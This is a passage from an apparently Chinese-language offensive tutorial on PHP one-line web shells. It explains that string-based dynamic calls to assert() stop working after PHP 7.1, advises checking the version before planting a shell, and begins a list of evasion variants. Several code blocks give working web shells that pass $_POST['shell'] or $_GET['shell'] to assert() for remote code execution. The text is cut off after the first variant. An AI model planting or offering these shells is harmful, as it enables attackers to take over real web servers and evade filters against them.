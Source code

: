 **Tips：**
那我们就去特殊函数中找找函数吧，最常见的代替`eval()`的函数有`assert()`;正当我满怀期待的构造了一波:
```php
<?php 
$a = "assert";
$a(@$_POST['shell']); 
//assert(@$_POST['shell'])
?>
```
发现👴上当了，马无法执行并且报了个`不能使用字符串参数动态调用assert()`的错，👴傻了。
查了一下发现。

![](img/1.png)
在php 7.2的版本说明中,对`assert()`函数传入字符串参数已经被禁用。 而这个禁用特性经过测试是从 php 7.1 版本开始的。所以现在很多马都失效了其实就是这个原因，以后渗透前先看看版本再上马。

所以如果想要执行就必须要通过以下方式执行
```php
<?php
assert($_GET['shell']);
?>
```
那和没变不还是一样吗?php你搞我。

## 最常见一句话马的多种变形

> 以下挂马均为 <7.1

**动态字符串绕过型**
```php
<?php
$a = "assert";
$a(@$_GET['shell']);
?>
```
